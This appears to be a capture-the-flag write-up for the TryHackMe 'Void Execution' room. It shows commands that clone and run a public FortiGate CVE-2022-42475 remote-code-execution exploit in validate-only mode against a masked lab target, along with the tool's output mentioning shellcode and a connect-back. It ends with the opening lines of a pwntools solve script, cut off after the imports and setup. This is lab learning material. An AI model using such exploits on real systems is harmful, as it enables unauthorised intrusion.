```bash
:~/VoidExecution# pip3 install pycryptodome
```

```bash
(rose) ...:~/VoidExecution# git clone https://github.com/0xhaggis/CVE-2022-42475
```

```bash
(rose) ...:~/VoidExecution# cd CVE-2022-42475
```

```bash
(rose) ...:~/VoidExecution/CVE-2022-42475# ls
CVE-2022-42475.py  exploit_data.json  foxrop.py  README.md  requirements.txt  shellcode.o  shellcode.s
```

```bash
:~/VoidExecution/CVE-2022-42475# ./CVE-2022-42475.py -t xx.xxx.xx.xxx -p 9008  -v

    --[ CVE-2022-42475: FortiGate Remote Pre-auth RCE ]--
    --[ Bishop Fox Cosmos Team X                      ]--
    
[+] Running in validate-only mode. No RCE.
[+] Using cached shellcode. Edit ./CVE-2022-42475.py (look for 'shellcode.s') to force refresh.
[+] Configured for connect-back to 127.0.0.1:443
[>] Testing to see if target is vulnerable (may take 10 seconds)
[>] An unexpected response (36 bytes) was recieved:
----- BEGIN RESPONSE -----

Send to void execution: 

voided!


----- END RESPONSE -----
[!] An error occurred testing 'xx.xxx.xx.xxx:9008' for the vulnerability.
[!] Is this even a FortiGate?
```

<br>
<h2>Script</h2>

<p>

- downloaded <a href="https://github.com/w3irdo21/tryhackme-rooms/blob/main/hfb1voidexecution.py">w3irdo21</a>´s script<br>
- executed it</p>

```bash
(rose) ...:~/VoidExecution# cat script.py
#!/usr/bin/env python3

'''

Room Script: https://tryhackme.com/room/hfb1voidexecution
Medium Article for explanation: https://medium.com/@Sle3pyHead/void-execution-tryhackme-ctf-notes-45c0545b5f10

'''

from pwn import *
import sys

context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'info'

```
